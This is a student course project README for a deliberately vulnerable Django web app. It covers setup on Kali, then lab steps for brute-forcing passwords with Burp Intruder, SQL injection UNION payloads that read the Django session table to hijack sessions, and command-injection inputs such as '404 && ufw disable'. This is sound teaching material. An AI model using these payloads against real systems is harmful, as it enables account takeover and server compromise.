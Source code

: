 # CN351-webSec

## SetUp project in visual machine
1. Clone project from github to `/home/kali/`
2. Install docker and docker-compose
```bash
$ sudo apt install docker.io
$ sudo systemctl enable docker --now
$ sudo usermod -aG docker $USER

$ sudo apt install docker-compose
```
3. Run docker-compose up -d
```bash ~/CN351-webSec
$ docker-compose up -d
```
4. setup requirement
```bash ~/CN351-webSec
$ sudo apt install pkg-config
$ sudo apt install python3-venv
$ sudo apt install python3-dev

$ python3 -m venv .venv
$ source .venv/bin/activate
$ pip install -r requirements.txt
```
5. change database HOST <br>
    -- comment 'HOST': '127.0.0.1', <br>
    -- uncomment new HOST <br>
6. add service to `/etc/systemd/system`
```bash
$ sudo cp cn351.service /etc/systemd/system
```
7. enable service
```bash
$ sudo systemctl deamon-reload
$ sudo systemctl enable cn351
$ sudo systemctl start cn351
```

## 4.7 Password Guessing
1. Open Burp Suit in kali-destop
2. Try to guess username and password in target web application
3. Check a HTTP history in Burp Suit
4. Send HTTP Resposonse to Intruder
5. Select a username or password to bruce force guessing
6. Add payload with seclists (lists of word guessing)
```bash
$ sudo apt install seclists
```
7. Observe and select a differ output to use as a password

## 7.2 SQL Injection
1. Go to http://<target-ip/domain>/?search=
2. Try to search with SQL Injection Example:
```url
/?search=' UNION SELECT table_schema,  table_name, NULL, NULL, NULL FROM information_schema.table_constraints;
/?search=' UNION SELECT *, NULL, NULL FROM db_websec.django_session;
```
3. Change sessionid to sessionid in django_session table

## 7.4 Command Injection
1. Go to http://<target-ip/domain>/logging/?search=
2. Try to search with Command Injection Example:
```input
200 && echo $USER
```
```input
302 && systemctl list-units --type=service
```
```input
404 && ufw disable
```

## Group Members
1. 6410615022   ชัญญานุช จำนงนิตย์
2. 6410615113   พิชชากานต์ ลีพุด
3. 6410685215	พชรพล ทัพผักแว่น
